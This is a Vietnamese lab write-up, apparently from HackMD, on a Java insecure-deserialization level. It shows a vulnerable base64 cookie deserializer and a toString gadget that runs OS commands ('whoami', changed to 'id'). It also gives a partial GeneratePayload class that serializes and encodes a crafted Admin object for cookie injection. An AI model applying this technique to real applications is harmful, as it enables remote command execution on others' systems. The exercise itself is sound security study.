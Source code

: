 ```java 
private static Object deserializeFromBase64(String s) throws IOException, ClassNotFoundException {
        byte[] data = Base64.getDecoder().decode(s);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
        Object o  = ois.readObject();
        ois.close();
        return o;
    }
```

Sau đó sẽ là hàm deserialize với method là `readObject()`.

Sau khi phân tích ta thấy ở đoạn hàm `doGet()` ở đó có một dòng:

```java 
out.println("<h1>Level 1 Hello " + user + "</h1>");
```

Ở đây là một đoạn ghép chuỗi và nó đã gọi đến hàm toString() và kích hoạt magic method đó, khi mà `toString()` được kích hoạt thì nó sẽ gọi đến câu OS command là `whoami` và trả về kết quả sau khi thực thi đó.

Đó sẽ là cái sink để ta có thể khai thác ta sẽ đi theo hướng exploit để có thể tạo ra một cái cookie đúng theo cấu trúc nhưng khác ở đây là ta có thể thay đổi được nội dung sau khi serialize theo ý thích của mình việc còn lại chỉ cần inject cookie mới vào để nó deserialize ra bây giờ ta sẽ đi đến với bước code exploit.

Với code exploit ta sẽ giữ lại hầu như các function các class sẵn có để có thể tạo thành gadget đúng theo ý mình và đúng theo cách hoạt động của web app.

![image](https://hackmd.io/_uploads/r1923jhaee.png)

Tại `Admin.java` mình tiến hành thay đổi câu lệnh whoami thành `id` để khi nó gọi đến toString thì thay vì gọi cmd là whoami bây giờ nó sẽ trả về giá trị sau khi thực thi câu lệnh id.

![image](https://hackmd.io/_uploads/H12UTi2aee.png)

Tại đây vì sử dụng class Admin nên ta sẽ thay đổi `User user = new User()` sang `User user = new Admin()` để cho đúng với cấu trúc.

Sau đó viết một class `GeneratePayload.java` có nội dung: 

```java 
package com.example.javadeserialize;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

public class GeneratePayload {

    public static void main(String[] args) {
        try {
            System.out.println(">>> Đang chuẩn bị tạo payload...");
            Admin payloadObject = new Admin();

            System.out.println(">>> Generate payload object: " + payloadObject);


            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);

            objectOutputStream.writeObject(payloadObject);
            objectOutputStream.close();
            byte[] serializedBytes = byteArrayOutputStream.toByteArray();
            String base64Payload = Base64.getEncoder().encodeToString(serializedBytes);

            System.out.println("\n--- Complete! ---");
```